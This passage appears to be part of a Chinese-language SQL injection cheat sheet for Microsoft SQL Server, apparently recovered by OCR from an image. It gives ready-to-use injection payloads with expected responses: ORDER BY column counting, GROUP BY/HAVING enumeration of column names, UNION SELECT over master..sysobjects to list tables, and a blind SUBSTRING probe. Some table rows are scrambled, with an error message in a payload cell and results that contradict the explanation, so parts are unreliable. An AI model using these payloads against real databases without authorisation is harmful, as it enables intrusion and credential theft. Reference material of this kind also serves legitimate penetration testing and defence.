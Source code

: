 ```
SELECT username, password, permission FROM Users WHERE id = '1'; 
```

| 1' ORDER BY 1-- | True |
| 1' ORDER BY 2-- | True |
| 1' ORDER BY 3-- | True |
| 1' ORDER BY 4-- | False - 列数为 3 |
| -1' UNION SELECT 1,2,3-- | True |

附：
不断递增的列数，直到得到一个错误的响应。

### GROUP BY / HAVING 获取当前查询的列名

示例：
给出的查询：

```
SELECT username, password, permission FROM Users WHERE id = '1'; 
```

| 1' HAVING 1=1-- | 选择列表中的列 'Users.username' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。 |
| 1' GROUP BY username HAVING 1=1-- | True |
| 选择列表中的列 'Users.username' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。 | True |
| 1' GROUP BY username, password HAVING 1=1-- | 选择列表中的列 'Users.username' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。 |
| 1' GROUP BY username, password, permission HAVING 1=1-- | 没有错误 |

附：一旦匹配所有的列将返回正常请求页面.

### 检索表

我们可以从两个不同的数据库，`information_schema.tables` 或 `from master..sysobjects` 中检索表。

### 联合查询:

```
UNION SELECT name FROM master..sysobjects WHERE xtype='U' 
```

附：

```
U = 用户表, V = 视图 , X = 扩展存储过程 
```

### 盲注类型：

```
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A' 
```
